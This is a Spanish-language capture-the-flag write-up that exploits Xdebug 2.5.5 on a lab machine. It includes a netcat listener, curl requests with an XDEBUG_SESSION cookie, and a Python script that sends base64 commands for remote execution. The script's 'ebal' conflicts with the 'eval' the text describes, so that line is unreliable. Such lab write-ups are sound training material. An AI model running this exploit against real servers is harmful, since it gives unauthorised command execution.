 ## Vulnerability Assessment {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizando el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de attackante en el puerto 9000
- usa el commando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- executa el fichero con php
- la peticion esta enviada por el methodo GET con `'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)'`

### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recivimos datos del lado del servidor.

### Exploitacion de la vulnerabilida {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'ebal -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit functionna y el commando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.
